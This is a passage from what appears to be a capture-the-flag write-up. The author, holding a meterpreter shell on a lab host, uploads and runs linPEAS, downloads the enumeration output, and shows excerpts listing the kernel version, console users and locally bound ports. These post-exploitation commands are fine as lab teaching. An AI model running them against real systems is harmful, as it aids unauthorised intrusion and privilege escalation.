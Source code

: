 Now that I had a shell, I started by running `linPEAS` to gain an initial impression of what else was running on the host.

```bash
msf5 post(multi/manage/shell_to_meterpreter) > use 2
[*] Starting interaction with 2...

meterpreter > getuid 
Server username: no-user @ internal (uid=33, gid=33, euid=33, egid=33)
meterpreter > cd /tmp/
meterpreter > upload /root/Desktop/PEASS/linPEAS/linpeas.sh
[*] uploading  : /root/Desktop/PEASS/linPEAS/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 217.36 KiB (-0.0%): /root/Desktop/PEASS/linPEAS/linpeas.sh -> linpeas.sh
[*] uploaded   : /root/Desktop/PEASS/linPEAS/linpeas.sh -> linpeas.sh
meterpreter > shell 
Process 6521 created.
Channel 3 created.
chmod +x linpeas.sh
./linpeas.sh > internal_local_enum.txt
```

```bash
meterpreter > download internal_local_enum.txt
[*] Downloading: internal_local_enum.txt -> /root/ctf/internal_local_enum.txt
[*] Downloaded 124.65 KiB of 124.65 KiB (100.0%): internal_local_enum.txt -> /root/ctf//internal_local_enum.txt
[*] download   : internal_local_enum.txt -> /root/ctf//internal_local_enum.txt
```

I combed through the results and found that the host contained an additional unprivileged users with a shell, `aubreanna`, appeared to be running `docker`, appeared to be running a significant number of locally bound services and finally that the host appeared to be running jenkins as the `aubreanna` user with the assumption being that one of these locally bound services was the jenkins portal.

```text
====================================( System Information )====================================
[+] Operative system
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits
Linux version 4.15.0-112-generic (buildd@lcy01-amd64-027) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.4 LTS
Release:        18.04
Codename:       bionic
```

```text
[+] Users with console
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

```text
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#internal-open-ports
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:44849         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
```